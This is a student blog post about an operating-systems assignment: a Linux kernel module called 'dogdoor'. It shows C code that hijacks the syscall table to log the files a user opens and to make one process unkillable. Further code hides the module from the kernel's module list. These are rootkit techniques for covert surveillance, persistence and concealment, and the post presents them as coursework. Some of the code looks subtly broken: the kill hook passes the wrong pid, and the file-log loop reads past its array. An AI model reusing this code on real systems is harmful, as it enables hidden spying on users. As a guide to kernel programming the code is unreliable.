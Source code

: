 ```yaml
---
layout: post
title: "운영체제 - LKM"
tags: [OS, 공부, 한동대]
comments: true
---
```


> Linux Kernel Module  

### 운영체제 System Programming  
2019-1 학기 가장 힘들었던 수업은 단연컨대 운영체제였다. 단순히 용어가 어렵고 개념이 너무 깊어서 뿐만 아니라 네 번에 걸친 system programming 과제가 잠을 못 자게 했다. 그래도 버티고 버텨낸 끝에 학기를 돌아보니 커널 레벨에서 코딩도 해보고, 생전 처음 들어본 데드락도 잡아보고, 소켓 프로그래밍도 해보는 진귀한 경험이었다. 앞으로 네 번의 포스팅에서 그것들을 다시 복습하며 정리하려 한다. (이미 기억이 많이 휘발돼서 상세하게 설명하지 못할 수도 있지만..) 운영체제 관련 포스팅은 대부분 영어로 작성하는 것이 편할 듯 하다. 용어가 한국어로는 너무 어색하고 학기 중에 리포트도 영어로 써서 설명이 익숙하기 때문이다.

첫번째 주제는 Linux Kernel Module 이다.  

### What is LKM?  
Linux Kernel Modules are pieces of code, or suit of functions that can be loaded and unloaded into the kernel upon demand. The point which distinguish LKM from normal program such as written with C language is that it can be loaded to kernel space in runtime.  

### Requirements  
* Log the names of files that a user has accessed  
* Prevent a kill to a specified process  
* Hide the dogdoor module from the module list  

### 1. tracking user-accessed files  
when user open certain file, original sys open function is called. By modifying it, (actually creating my sys open function and change the system vector) tracking user-accessed files are able.  
~~~c
asmlinkage int (*orig_sys_open)(const char __user * filename, int flags, umode_t mode) ; 

asmlinkage int openhook_sys_open(const char __user * filename, int flags, umode_t mode)
{
	char fname[256] ;

	copy_from_user(fname, filename, 256) ;
	// get user uid 
	unsigned int  uid = get_current_user() -> uid.val;
	int i = 0;
	if (uid == userid) {
		// track up to ten files
		if (fcnt >= 10) {
			for(i = 0; i < 10; i++) strcpy(fnames[i], fnames[i+1]);
			--fcnt;
		}
		strcpy(fnames[fcnt], fname);
		++fcnt;	
	}
	
	return orig_sys_open(filename, flags, mode) ;
}
~~~
~~~c
sctable[__NR_open] = openhook_sys_open ;
~~~  

### 2. immortal process  
To prevent kill() system call, system vector must be changed. Thus, sys kill should be hijacked.  

~~~c
asmlinkage long (*orig_sys_kill)(pid_t pid, int sig) ;  

asmlinkage long openhook_sys_kill(pid_t pid, int sig)  
{  
	if (in_pid == pid) return -1 ;  
	return orig_sys_kill(in_pid, sig) ;  
}  
~~~
~~~c
orig_sys_kill = sctable[__NR_kill] ;  
~~~
By changing the system vector, intended system call replaces the original one. As the code above explains, new sys kill function is quite simple. It checks the matching pid of process and just stops the system call. If not, call the original sys kill function so that the process can be propely terminated.

### 3. invisible module  
The type of THIS_MODULE->list is ‘struct list_head’. THIS_MODULE->list is doubly circular linked list.
From the hint that it’s doubly linked list, module can be hidden by two ways  

1. using list_del() and list_add() functions which is included in linux/list.h header file.  
~~~c
static void hide(void) {
	prev = THIS_MODULE->list.prev;
	list_del(&THIS_MODULE->list);
}
~~~
~~~c
static void show(void) {
	list_add(&THIS_MODULE->list, prev);
}
~~~  

2. adjusting the links : pre, next, and THIS_MODULE->list.  
~~~c
if (is_hide) {
	(&THIS_MODULE->list)->prev->next = &THIS_MODULE->list;
	(&THIS_MODULE->list)->next->prev = &THIS_MODULE->list;
}
else {
	(&THIS_MODULE->list)->prev->next = (&THIS_MODULE->list)->next;
	(&THIS_MODULE->list)->next->prev = (&THIS_MODULE->list)->prev;
}
~~~

### 4. demo video
[LKM demo](https://www.youtube.com/watch?v=L4Jp-GhrlT4)


